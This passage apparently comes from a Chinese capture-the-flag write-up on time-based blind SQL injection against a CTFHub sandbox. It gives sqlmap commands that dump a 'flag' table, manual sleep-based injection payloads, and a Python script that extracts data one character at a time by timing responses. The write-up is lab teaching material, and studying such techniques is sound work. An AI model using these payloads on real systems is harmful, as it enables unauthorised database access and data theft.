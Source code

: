 ```
sqlmap -u http://challenge-c040fe3754779bb8.sandbox.ctfhub.com:10800/?id=1 -D sqli -T flag --columns
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439883.png" alt="image-20210719223210839" style="zoom:67%;" />

4. 爆数据

```
sqlmap -u http://challenge-c040fe3754779bb8.sandbox.ctfhub.com:10800/?id=1 -D sqli -T flag -C flag --dump
```

![image-20210719224102387](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041439884.png)



- 手注法

```sql
判断当前数据库名长，发现长度为4
?id=1 and if(length(database())=4,1,sleep(3))
判断当前库下表个数，为2时停三秒,说明有两张表
?id=1 and if((select count(table_name) from information_schema.tables
 where table_schema=database())=2,sleep(3),1)
 
```



- python自动脚本

```python
# -*- coding:utf-8 -*-
import requests
import time
flag = ""
for i in range(1,50):
    min=32
    max=127
    mid=(min+max)//2
    while min<max:
        starttime = time.time()
        #pa = '1^if(ascii(substr(database(),{},1))>{},sleep(2),-1)^1'.format(str(i),str(mid)) 爆库
        #pa = "1^if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='sqli'),{},1))>{},sleep(2),-1)^1".format(str(i),str(mid)) 爆表
        #pa = "1^if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),{},1))>{},sleep(2),-1)^1".format(str(i), str(mid)) 爆列
        pa = "1^if(ascii(substr((select group_concat(flag) from flag),{},1))>{},sleep(2),-1)^1".format(str(i), str(mid))
        url = "http://challenge-c040fe3754779bb8.sandbox.ctfhub.com:10800/?id="
        ur=url+pa
        res = requests.get(ur)
        if time.time() - starttime > 2:
            min=mid+1
        else:
            max=mid
        mid = (min + max)//2
    flag+=chr(mid)
    print(flag)
    #得到flag
```
